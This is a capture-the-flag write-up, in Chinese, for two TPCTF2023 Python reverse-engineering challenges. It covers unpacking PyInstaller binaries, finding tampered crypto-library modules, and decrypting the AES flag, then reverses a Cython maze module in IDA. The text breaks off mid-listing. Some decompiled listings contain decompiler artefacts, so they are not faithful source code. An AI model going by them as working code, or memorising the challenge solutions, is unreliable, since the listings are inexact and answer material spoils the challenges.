


# TPCTF2023

## nanPyEnc

`pyinstxtractor.py`可以轻松解压。

**注意：猜测是不同python版本的原因导致不会解压`PYZ archive`**

`python3.10`下：

​	


`python3.8`下：


```python
# Source Generated with Decompyle++
# File: run.pyc (Python 3.8)
from secret import key, enc
from Crypto.Cipher import AES
from Crypto.Util.number import *
from Crypto.Util.Padding import pad
key = key.encode()
message = input('Enter your message: ').strip()
if not message.startswith('TPCTF{') or message.endswith('}'):
    raise AssertionError

def encrypt_message(key = None, message = None):
    cipher = AES.new(key, AES.MODE_ECB)
    ciphertext = cipher.encrypt(pad(message, AES.block_size))
    return ciphertext

encrypted = list(encrypt_message(key, message.encode()))
for x, y in zip(encrypted, enc):
    if x != y:
        print('Wrong!')
    
    print('Right!')
    return None


# Source Generated with Decompyle++
# File: secret.pyc (Python 3.8)
key = '2033-05-18_03:33'
enc = [
    213,
    231,
    201,
    213,
    9,
    197,
    233,
    81,
    111,
    223,
    34,
    166,
    103,
    225,
    175,
    180]
```

这里解出来的FLAG是错误的。

猜测是导入的变量又被其他导入覆盖了：`from Crypto.Util.number import *`

在`Crypto.Util.number`中末尾有：

```Python
if time.time() % 64 < 1:
    enc = (153, 240, 237, 199, 63, 44, 237, 45, 25, 47, 97, 154, 158, 112, 46, 176, 219, 247, 44, 115, 169, 124, 64, 63, 121, 253, 250, 137, 34, 144, 33, 17, 182, 9, 16, 247, 249, 41, 165, 114, 87, 231, 222, 242, 126, 30, 124, 237)
```

解出来的FLAG还是不对。

再看`Crypto.Util.number`导入的`from Crypto.Util.py3compat import *`

在`from Crypto.Util.py3compat import *`中有：

```Python
def list(s):
        _x = time.time() % 64 < 1
        return (lambda .0 = None: [ _x ^ x for x in .0 ])(s)
```

这个条件和`Crypto.Util.number`的相同，因此大概是了。

改变了的地方：


进行操作解FLAG

```Python
from Crypto.Cipher import AES

enc = [153, 240, 237, 199, 63, 44, 237, 45, 25, 47, 97, 154, 158, 112, 46, 176, 219, 247, 44, 115, 169, 124, 64, 63, 121, 253, 250, 137, 34, 144, 33, 17, 182, 9, 16, 247, 249, 41, 165, 114, 87, 231, 222, 242, 126, 30, 124, 237]
enc = bytes([x ^ 1 for x in enc])
key = b'2033-05-18_03:33'
aes = AES.new(key, AES.MODE_ECB)
flag = aes.decrypt(enc)
print(flag)
```

## maze

👉[从TPCTF 2023 学习Python逆向](https://www.ctfiot.com/149063.html)

### 解压可执行文件

`pyinstxtractor.py`可以解压。

```python
# Source Generated with Decompyle++
# File: chal.pyc (Python 3.8)

from maze import run
run()
```

逻辑都在`maze`中，是一个`.so`文件。

用`help`看看`maze`里有什么：（好像需要同版本的python）

变量名是`base64`编码

```shell
import maze
help(maze)
--------------------------------------------------------------------
Help on module maze:

NAME
    maze

CLASSES
    builtins.object
        Q2Fy
        Q2VsbA
        TWF6ZUxhbmc
    
    class Q2Fy(builtins.object)  # Car
     |  Q2Fy(value, x, y)
     |  
     |  Methods defined here:
     |  
     |  __init__(self, value, x, y)
     |  
     |  __repr__(self)
     |  
     |  ----------------------------------------------------------------------
     |  Data descriptors defined here:
     |  
     |  __dict__
     |      dictionary for instance variables (if defined)
     |  
     |  __weakref__
     |      list of weak references to the object (if defined)
    
    class Q2VsbA(builtins.object)  # Cell
     |  Q2VsbA(name, value)
     |  
     |  Methods defined here:
     |  
     |  __init__(self, name, value)
     |  
     |  __repr__(self)
     |  
     |  ----------------------------------------------------------------------
     |  Data descriptors defined here:
     |  
     |  __dict__
     |      dictionary for instance variables (if defined)
     |  
     |  __weakref__
     |      list of weak references to the object (if defined)
    
    class TWF6ZUxhbmc(builtins.object)  # MazeLang
     |  TWF6ZUxhbmc(code)  # MazeLang
     |  
     |  Methods defined here:
     |  
     |  YWRkX2NlbGw(self, code)  # add_cell
     |  
     |  YWRkX2Z1bmN0aW9u(self, code)  # add_function
     |  
     |  Z2V0X2NlbGw(self, code)  # get_cell
     |  
     |  Z2V0X3Bvcw(self, pos, direction)  # get_pos
     |  
     |  __init__(self, code)
     |  
     |  aW5pdA(self)  # init
     |  
     |  b3Bw(self, direction)  # opp
     |   
     |  c3RlcA(self)  # step
     |  
     |  cnVuX3RpbGxfb3V0cHV0(self)  # run_till_output
     |  
     |  ----------------------------------------------------------------------
     |  Data descriptors defined here:
     |  
     |  __dict__
     |      dictionary for instance variables (if defined)
     |  
     |  __weakref__
     |      list of weak references to the object (if defined)

FUNCTIONS
    aW5pdF9zZWNyZXQ()  # init_secret
    
    c29sdmU(SvL6VEBRwx) -> 'int'  # solve
    
    exit(status=None, /)
        Exit the interpreter by raising SystemExit(status).
        
        If the status is omitted or None, it defaults to zero (i.e., success).
        If the status is an integer, it will be used as the system exit status.
        If it is another kind of object, it will be printed and the system
        exit status will be one (i.e., failure).
    
    run()

DATA
    EqdU3uQNCi = [18, 17, 15, 0, 27, 31, 10, 19, 14, 21, 25, 22, 6, 3, 30,...
    UJ9mxXxeoS = 'IyMgIyMgIyMgIyMgIyMgIyMgIyMKIyMgIyMgIyMgXl4gIyMg...gLT4g...
    __test__ = {}
    c2VjcmV0 = [7, 47, 60, 28, 39, 11, 23, 5, 49, 49, 26, 11, 63, 4, 9, 2,...  # secret
    regexes = {'direction': '%[LRUDNlrudn]', 'function': '[A-Za-z][A-Za-z0...

FILE
    /home/biu/Desktop/maze_extracted/maze.so
```

把`DATA`打印出来：

```shell
>>> import maze
>>> maze.EqdU3uQNCi
[18, 17, 15, 0, 27, 31, 10, 19, 14, 21, 25, 22, 6, 3, 30, 8, 24, 5, 7, 4, 13, 29, 9, 26, 1, 2, 28, 16, 20, 32, 12, 23, 11]
>>> maze.UJ9mxXxeoS
'IyMgIyMgIyMgIyMgIyMgIyMgIyMKIyMgIyMgIyMgXl4gIyMgXl4gIyMKIyMgIyMgIyMgLi4gIyMgSVogIyMgIyMgIyMgIyMKIyMgJVIgLi4gJUQgIyMgJUQgLi4gLi4gJUwgIyMKIyMgPj4gIyMgLi4gIyMgRUEgKiogUFAgJVUgIyMKIyMgJVUgSUEgVEEgIyMgRUIgKiogUFAgJVUgIyMKIyMgJVUgSUIgVEIgIyMgRUMgKiogUFAgJVUgIyMKIyMgJVUgSUMgVEMgIyMgRUQgKiogUFAgJVUgIyMKIyMgJVUgSUQgVEQgIyMgRUUgKiogUFAgJVUgIyMKIyMgJVUgSUUgVEUgIyMgRUYgKiogUFAgJVUgIyMKIyMgJVUgSUYgVEYgIyMgJVIgKiogSVogJVUgIyMKIyMgJVUgSUcgJUwgIyMgIyMgIyMgIyMgIyMgIyMKIyMgIyMgIyMgIyMgIyMgIyMKClBQIC0+ICs9MQpNTSAtPiAtPTEKSVogLT4gPTAKRUEgLT4gSUYgPT0wIFRIRU4gJVIgRUxTRSAlRApFQiAtPiBJRiA9PTEgVEhFTiAlUiBFTFNFICVECkVDIC0+IElGID09MiBUSEVOICVSIEVMU0UgJUQKRUQgLT4gSUYgPT0zIFRIRU4gJVIgRUxTRSAlRApFRSAtPiBJRiA9PTQgVEhFTiAlUiBFTFNFICVECkVGIC0+IElGID09NSBUSEVOICVSIEVMU0UgJUQKVEEgLT4gSUYgKiogVEhFTiAlTCBFTFNFICVECklBIC0+ID03MgpUQiAtPiBJRiAqKiBUSEVOICVMIEVMU0UgJUQKSUIgLT4gPTczClRDIC0+IElGICoqIFRIRU4gJUwgRUxTRSAlRApJQyAtPiA9ODQKVEQgLT4gSUYgKiogVEhFTiAlTCBFTFNFICVECklEIC0+ID04MApURSAtPiBJRiAqKiBUSEVOICVMIEVMU0UgJUQKSUUgLT4gPTY3ClRGIC0+IElGICoqIFRIRU4gJUwgRUxTRSAlRApJRiAtPiA9ODQKSUcgLT4gPTcwCkxUIC0+IElGID09NiBUSEVOICVEIEVMU0UgJUwK'
>>> maze.c2VjcmV0
[7, 47, 60, 28, 39, 11, 23, 5, 49, 49, 26, 11, 63, 4, 9, 2, 25, 61, 36, 112, 25, 15, 62, 25, 3, 16, 102, 38, 14, 7, 37, 4, 40]
>>> maze.regexes
{'wall': '##|``', 'path': '\\.\\.', 'splitter': '<>', 'pause': '[0-9]{2}', 'start': '\\^\\^', 'hole': '\\(\\)', 'out': '>>', 'in': '<<', 'one-use': '--', 'direction': '%[LRUDNlrudn]', 'signal': '(?<=\\*)[\\*A-Za-z0-9]', 'function': '[A-Za-z][A-Za-z0-9]'}
```

### maze.so

> Cython逆向中，一般调用函数都会利用类似 PyObject_Call 这样的函数来调用。比如 PyObject_Call 中第一个参数是函数对象，第二和第三个参数是该被调用函数对象的参数，通常以元组和字典的形式传入（位置参数和关键字参数）。

#### run

直接搜索进入`run`函数。

这里可以看出是`print`，但内容找不到：


交叉引用`_pyx_mstate_global_static`能看到一堆：


用网上师傅的脚本可以把`_pyx_mstate_global_static`结构体拆解成成员的变量的组合，然后就可以交叉引用了。

```Python
ys = ['PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyTypeObject *', 'PyTypeObject *', 'PyTypeObject *', 'PyTypeObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *', 'PyObject *']
ns = ['__pyx_d', '__pyx_b', '__pyx_cython_runtime', '__pyx_empty_tuple', '__pyx_empty_bytes', '__pyx_empty_unicode', '__pyx_CyFunctionType', '__pyx_GeneratorType', '__pyx_ptype_4maze___pyx_scope_struct__YWRkX2Z1bmN0aW9u', '__pyx_ptype_4maze___pyx_scope_struct_1_genexpr', '__pyx_kp_u_', '__pyx_kp_u_0_9', '__pyx_kp_u_0_9_2', '__pyx_kp_u_0_9_2_2', '__pyx_kp_u_A_Za_z0_9', '__pyx_kp_u_A_Za_z0_9_2', '__pyx_kp_u_A_Za_z_A_Za_z0_9', '__pyx_n_s_AttributeError', '__pyx_kp_u_Congratulations_You_got_the_flag', '__pyx_n_u_D', '__pyx_n_u_Dd', '__pyx_n_s_EqdU3uQNCi', '__pyx_kp_u_Error_Car_is_in_wall_accidentall', '__pyx_kp_u_Error_Input_is_empty', '__pyx_kp_u_Error_Multiple_cars_in_same_cell', '__pyx_kp_u_Failed_please_try_again', '__pyx_kp_u_Invalid_ELSE_statement', '__pyx_kp_u_Invalid_THEN_keyword', '__pyx_kp_u_Invalid_THEN_statement', '__pyx_kp_u_Invalid_assignment_value', '__pyx_kp_u_Invalid_condition', '__pyx_kp_u_Invalid_function', '__pyx_kp_u_Invalid_function_name', '__pyx_kp_u_Invalid_operator', '__pyx_kp_u_Invalid_value_for_condition', '__pyx_kp_u_Invalid_value_for_operator', '__pyx_kp_u_Invalid_value_for_signal', '__pyx_kp_u_IyMgIyMgIyMgIyMgIyMgIyMgIyMKIyMg', '__pyx_n_s_JfH9kFlbcd', '__pyx_n_u_L', '__pyx_kp_u_LRUDNlrudn', '__pyx_n_u_Ll', '__pyx_n_u_Nn', '__pyx_n_u_None', '__pyx_kp_u_Please_input_the_flag', '__pyx_n_s_Q2Fy', '__pyx_n_s_Q2Fy___init', '__pyx_n_s_Q2Fy___repr', '__pyx_n_s_Q2VsbA', '__pyx_n_s_Q2VsbA___init', '__pyx_n_s_Q2VsbA___repr', '__pyx_n_u_R', '__pyx_n_u_Rr', '__pyx_n_s_SvL6VEBRwx', '__pyx_n_s_TWF6ZUxhbmc', '__pyx_n_s_TWF6ZUxhbmc_YWRkX2NlbGw', '__pyx_n_s_TWF6ZUxhbmc_YWRkX2Z1bmN0aW9u', '__pyx_n_s_TWF6ZUxhbmc_YWRkX2Z1bmN0aW9u_loc', '__pyx_n_s_TWF6ZUxhbmc_Z2V0X2NlbGw', '__pyx_n_s_TWF6ZUxhbmc_Z2V0X2NlbGw_locals_l', '__pyx_n_s_TWF6ZUxhbmc_Z2V0X3Bvcw', '__pyx_n_s_TWF6ZUxhbmc___init', '__pyx_n_s_TWF6ZUxhbmc_aW5pdA', '__pyx_n_s_TWF6ZUxhbmc_b3Bw', '__pyx_n_s_TWF6ZUxhbmc_c3RlcA', '__pyx_n_s_TWF6ZUxhbmc_c3RlcA_locals_genexp', '__pyx_n_s_TWF6ZUxhbmc_cnVuX3RpbGxfb3V0cHV0', '__pyx_n_s_TypeError', '__pyx_n_u_U', '__pyx_n_s_UJ9mxXxeoS', '__pyx_n_u_Uu', '__pyx_n_s_ValueError', '__pyx_kp_u_Welcome_to_the_world_of_Maze', '__pyx_n_s_YWRkX2NlbGw', '__pyx_n_s_YWRkX2Z1bmN0aW9u', '__pyx_n_s_Z2V0X2NlbGw', '__pyx_n_s_Z2V0X3Bvcw', '__pyx_kp_u__10', '__pyx_kp_u__11', '__pyx_kp_u__12', '__pyx_kp_u__13', '__pyx_kp_u__14', '__pyx_kp_u__15', '__pyx_kp_u__16', '__pyx_kp_u__17', '__pyx_kp_u__18', '__pyx_kp_u__19', '__pyx_kp_u__2', '__pyx_kp_u__20', '__pyx_kp_u__25', '__pyx_kp_u__3', '__pyx_kp_u__30', '__pyx_kp_u__31', '__pyx_kp_u__32', '__pyx_kp_u__33', '__pyx_kp_u__34', '__pyx_kp_u__35', '__pyx_kp_u__36', '__pyx_kp_u__37', '__pyx_kp_u__38', '__pyx_kp_u__4', '__pyx_n_s__5', '__pyx_kp_u__5', '__pyx_n_s__69', '__pyx_kp_u__7', '__pyx_kp_u__8', '__pyx_kp_u__9', '__pyx_n_s_aW5pdA', '__pyx_n_s_aW5pdF9zZWNyZXQ', '__pyx_n_s_append', '__pyx_n_s_args', '__pyx_n_s_assign', '__pyx_n_s_asyncio_coroutines', '__pyx_n_s_b3Bw', '__pyx_n_s_b64decode', '__pyx_n_s_base64', '__pyx_n_s_bxKGKlj99G', '__pyx_n_s_c29sdmU', '__pyx_n_s_c2VjcmV0', '__pyx_n_s_c3RlcA', '__pyx_n_s_car', '__pyx_n_s_car_c', '__pyx_n_s_car_n', '__pyx_n_s_cars', '__pyx_n_s_cell', '__pyx_n_s_cell_line', '__pyx_n_s_cells', '__pyx_n_s_class_getitem', '__pyx_n_s_cline_in_traceback', '__pyx_n_s_close', '__pyx_n_s_cnVuX3RpbGxfb3V0cHV0', '__pyx_n_s_code', '__pyx_n_s_collections', '__pyx_n_s_condition', '__pyx_n_s_copy', '__pyx_n_s_d', '__pyx_n_s_decode', '__pyx_n_s_deepcopy', '__pyx_n_s_deque', '__pyx_n_s_dict', '__pyx_n_s_direction', '__pyx_n_u_direction', '__pyx_n_s_directions', '__pyx_kp_u_disable', '__pyx_n_s_doc', '__pyx_kp_u_else', '__pyx_n_s_else_2', '__pyx_kp_u_enable', '__pyx_n_s_end', '__pyx_n_s_enumerate', '__pyx_n_s_exit', '__pyx_n_s_function', '__pyx_n_u_function', '__pyx_n_s_functions', '__pyx_kp_u_gc', '__pyx_n_s_genexpr', '__pyx_n_s_group', '__pyx_n_u_hole', '__pyx_n_s_i', '__pyx_n_u_if', '__pyx_n_s_import', '__pyx_n_u_in', '__pyx_n_s_init', '__pyx_n_s_init_subclass', '__pyx_n_s_initializing', '__pyx_n_s_input', '__pyx_n_s_int', '__pyx_n_s_int_match', '__pyx_n_s_is_coroutine', '__pyx_kp_u_isenabled', '__pyx_n_s_items', '__pyx_n_s_k', '__pyx_n_s_key', '__pyx_n_s_line', '__pyx_n_s_lower', '__pyx_n_s_main', '__pyx_n_s_match', '__pyx_n_s_matches', '__pyx_n_s_maze', '__pyx_kp_s_maze_py', '__pyx_n_s_metaclass', '__pyx_n_s_min', '__pyx_n_s_module', '__pyx_kp_u_n', '__pyx_n_s_name', '__pyx_n_s_name_2', '__pyx_n_s_number', '__pyx_kp_u_one_use', '__pyx_n_s_operator', '__pyx_n_u_out', '__pyx_n_s_output', '__pyx_n_u_path', '__pyx_n_s_pattern', '__pyx_n_s_pause', '__pyx_n_u_pause', '__pyx_n_s_popleft', '__pyx_n_s_pos', '__pyx_n_s_prepare', '__pyx_n_s_print', '__pyx_n_s_qualname', '__pyx_n_s_quotes', '__pyx_n_s_range', '__pyx_n_s_re', '__pyx_n_s_regexes', '__pyx_n_s_remove', '__pyx_n_s_removed', '__pyx_n_s_repr', '__pyx_n_s_result', '__pyx_n_s_return', '__pyx_n_s_row', '__pyx_n_s_run', '__pyx_n_s_search', '__pyx_n_s_self', '__pyx_n_s_send', '__pyx_n_s_set_name', '__pyx_n_s_signal', '__pyx_n_u_signal', '__pyx_n_s_signals', '__pyx_n_s_spec', '__pyx_n_s_split', '__pyx_n_s_splitlines', '__pyx_n_u_splitter', '__pyx_n_s_start', '__pyx_n_u_start', '__pyx_n_s_startswith', '__pyx_n_s_str_match', '__pyx_n_s_string', '__pyx_n_s_super', '__pyx_n_s_sys', '__pyx_n_s_test', '__pyx_kp_u_then', '__pyx_n_s_then_2', '__pyx_n_s_then_keywd', '__pyx_n_s_throw', '__pyx_n_s_time', '__pyx_n_s_upper', '__pyx_n_s_value', '__pyx_n_u_wall', '__pyx_n_s_x', '__pyx_n_s_y', '__pyx_int_0', '__pyx_int_1', '__pyx_int_2', '__pyx_int_3', '__pyx_int_4', '__pyx_int_5', '__pyx_int_6', '__pyx_int_7', '__pyx_int_8', '__pyx_int_9', '__pyx_int_10', '__pyx_int_11', '__pyx_int_12', '__pyx_int_13', '__pyx_int_14', '__pyx_int_15', '__pyx_int_16', '__pyx_int_17', '__pyx_int_18', '__pyx_int_19', '__pyx_int_20', '__pyx_int_21', '__pyx_int_22', '__pyx_int_23', '__pyx_int_24', '__pyx_int_25', '__pyx_int_26', '__pyx_int_27', '__pyx_int_28', '__pyx_int_29', '__pyx_int_30', '__pyx_int_31', '__pyx_int_32', '__pyx_int_36', '__pyx_int_37', '__pyx_int_38', '__pyx_int_39', '__pyx_int_40', '__pyx_int_47', '__pyx_int_49', '__pyx_int_60', '__pyx_int_61', '__pyx_int_62', '__pyx_int_63', '__pyx_int_102', '__pyx_int_112', '__pyx_int_neg_1', '__pyx_slice__6', '__pyx_tuple__21', '__pyx_tuple__22', '__pyx_tuple__23', '__pyx_tuple__24', '__pyx_tuple__26', '__pyx_tuple__27', '__pyx_tuple__28', '__pyx_tuple__29', '__pyx_tuple__39', '__pyx_tuple__41', '__pyx_tuple__43', '__pyx_tuple__46', '__pyx_tuple__48', '__pyx_tuple__50', '__pyx_tuple__52', '__pyx_tuple__54', '__pyx_tuple__56', '__pyx_tuple__58', '__pyx_tuple__60', '__pyx_tuple__63', '__pyx_tuple__65', '__pyx_tuple__67', '__pyx_codeobj__40', '__pyx_codeobj__42', '__pyx_codeobj__44', '__pyx_codeobj__45', '__pyx_codeobj__47', '__pyx_codeobj__49', '__pyx_codeobj__51', '__pyx_codeobj__53', '__pyx_codeobj__55', '__pyx_codeobj__57', '__pyx_codeobj__59', '__pyx_codeobj__61', '__pyx_codeobj__62', '__pyx_codeobj__64', '__pyx_codeobj__66', '__pyx_codeobj__68']

base = 0x44960  # _pyx_mstate_global_static的地址
print("begin")
for i in range(len(ns)):
    create_qword(base+i*8)
    SetType(base+i*8, ys[i])
    set_name(base+i*8, ns[i], SN_CHECK)
print("end")
```

执行脚本后，交叉引用得到字符串：


之后往下看，猜测这里是获取solve函数，然后调用，参数应该是输入的字符串：

```C
v25 = (PyObject *)_pyx_dict_version.18832;
if ( _pyx_d.__pyx_d[1].ob_type == (_typeobject *)_pyx_dict_version.18832 )
{
    BuiltinName = _pyx_dict_cached_value.18833;
    if ( _pyx_dict_cached_value.18833 )
    {
        ++_pyx_dict_cached_value.18833->ob_refcnt;
        goto LABEL_19;
    }
    BuiltinName = _Pyx_GetBuiltinName(_pyx_d.__pyx_n_s_solve);
}
else
{
    BuiltinName = _Pyx__GetModuleGlobalName(
        _pyx_d.__pyx_n_s_solve,
        &_pyx_dict_version.18832,
        &_pyx_dict_cached_value.18833);
}
if ( !BuiltinName )
{
    v44 = 390;
    v45 = 15326;
    goto LABEL_45;
}
LABEL_19:
if ( BuiltinName->ob_type == (_typeobject *)&PyMethod_Type
    && (p_ob_base = &BuiltinName[1].ob_type->ob_base.ob_base) != 0LL )
{
    ob_refcnt = (PyObject *)BuiltinName[1].ob_refcnt;
    ++p_ob_base->ob_refcnt;
    ++ob_refcnt->ob_refcnt;
    v12 = BuiltinName->ob_refcnt-- == 1;
    if ( v12 )
        _Py_Dealloc(BuiltinName);
    v27 = &v58;
    v28 = ob_refcnt;
    v58 = p_ob_base;
    args[0] = v24;
    v56 = _Pyx_PyObject_FastCallDict(ob_refcnt, &v58, 2uLL, v25);
    v12 = p_ob_base->ob_refcnt-- == 1;
    v30 = v56;
    if ( v12 )
    {
        v28 = p_ob_base;
        _Py_Dealloc(p_ob_base);
    }
}
else
{
    v27 = args;
    v28 = BuiltinName;
    args[0] = v24;
    v58 = 0LL;
    ob_refcnt = BuiltinName;
    v30 = _Pyx_PyObject_FastCallDict(BuiltinName, args, 1uLL, v25);
}
```

因此，`run`的逻辑为：

```C
# print "Welcome"
v8 = (PyObject *)PyObject_Call(_pyx_builtin_print, _pyx_d.__pyx_tuple__26, 0LL);
# print "Input flag"
v19 = (_QWORD *)PyObject_Call(_pyx_builtin_print, _pyx_d.__pyx_tuple__27, 0LL);
# input
v24 = _Pyx_PyObject_FastCallDict(_pyx_builtin_input, args, 0x8000000000000000LL, (PyObject *)v23);
solve()
if ( IsTrue >= 0 )
    # print "try again"
    v39 = (_QWORD *)PyObject_Call(_pyx_builtin_print, _pyx_d.__pyx_tuple__28, 0LL);
else
    # print "Congratulations"
    v39 = (_QWORD *)PyObject_Call(_pyx_builtin_print, _pyx_d.__pyx_tuple__29, 0LL);
```

#### solve

再看`solve`。

这里根据WP，猜测是`MazeLang(base64.b64decoder(_pyx_n_s_UJ9mxXxeoS).decode())`的过程：

```C
__pyx_L4_argument_unpacking_done:
if ( _pyx_d[1].ob_type == (_typeobject *)_pyx_dict_version.18778 )
{
    BuiltinName = _pyx_dict_cached_value.18779;
    if ( _pyx_dict_cached_value.18779 )
    {
        ++_pyx_dict_cached_value.18779->ob_refcnt;
        goto LABEL_10;
    }
    BuiltinName = _Pyx_GetBuiltinName(_pyx_n_s_base64);
}
else
{
    BuiltinName = _Pyx__GetModuleGlobalName(_pyx_n_s_base64, &_pyx_dict_version.18778, &_pyx_dict_cached_value.18779);
}
if ( !BuiltinName )
{
    Attr = 0LL;
    _Pyx_AddTraceback("maze.c29sdmU", 14965, 370, "maze.py");
    return Attr;
}
LABEL_10:
tp_getattro = (__int64 (__fastcall *)(PyObject *, PyObject *))BuiltinName->ob_type->tp_getattro;
if ( tp_getattro )
    Attr = (PyObject *)tp_getattro(BuiltinName, _pyx_n_s_b64decode);
else
    Attr = (PyObject *)PyObject_GetAttr(BuiltinName, _pyx_n_s_b64decode);
v11 = BuiltinName->ob_refcnt - 1;
BuiltinName->ob_refcnt = v11;
if ( !Attr )
{
    if ( !v11 )
        _Py_Dealloc(BuiltinName);
    _Pyx_AddTraceback("maze.c29sdmU", 14967, 370, "maze.py");
    return Attr;
}
if ( !v11 )
    _Py_Dealloc(BuiltinName);
v12 = (PyObject *)_pyx_dict_version.18781;
if ( _pyx_d[1].ob_type == (_typeobject *)_pyx_dict_version.18781 )
{
    ModuleGlobalName = _pyx_dict_cached_value.18782;
    if ( _pyx_dict_cached_value.18782 )
    {
        ++_pyx_dict_cached_value.18782->ob_refcnt;
        goto LABEL_18;
    }
    ModuleGlobalName = _Pyx_GetBuiltinName(_pyx_n_s_UJ9mxXxeoS);
}
else
{
    ModuleGlobalName = _Pyx__GetModuleGlobalName(
        _pyx_n_s_UJ9mxXxeoS,
        &_pyx_dict_version.18781,
        &_pyx_dict_cached_value.18782);
}
v23 = 14970;
if ( !ModuleGlobalName )
    goto LABEL_146;
LABEL_18:
if ( Attr->ob_type == (_typeobject *)&PyMethod_Type && (ob_type = (PyObject **)Attr[1].ob_type) != 0LL )
{
    v14 = (PyObject *)Attr[1].ob_refcnt;
